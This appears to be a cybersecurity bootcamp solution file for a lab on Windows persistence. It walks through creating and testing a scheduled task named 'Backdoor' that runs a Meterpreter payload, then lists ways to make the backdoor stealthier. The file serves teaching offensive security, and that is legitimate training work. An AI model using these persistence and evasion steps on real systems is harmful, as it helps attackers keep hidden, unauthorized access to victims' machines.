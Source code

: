 ## Solution File: Windows Persistence

In this activity, you established persistence on the machine to ensure your SYSTEM access. You created a scheduled task that executes a custom Meterpreter payload.

### Instructions

You will work off your Meterpreter session on the Window10 machine. If you do not have an active session on the WIN10 machine, refer to prior activities to obtain a Meterpreter shell.

1. In your Meterpreter session, drop into a `shell` session.

     - `shell`

2. Create a scheduled task that will execute your payload every day at midnight.  

     - `schtasks /create /f /tn Backdoor /SC ONCE /ST 00:00 /TR "C:\shell.exe"`

	 ![A screenshot depicts the results of the command.](schtask.PNG)

3. Test your scheduled task.

     - `schtasks /run /tn Backdoor`

	 ![A screenshot depicts the results of the command.](testschtask.PNG)

4. How could you improve this technique to make it more stealthy?

     - Better task name

     - Execute a better-named payload

     - Schedule the task only to run on certain events, such as logon

---

&copy; 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.



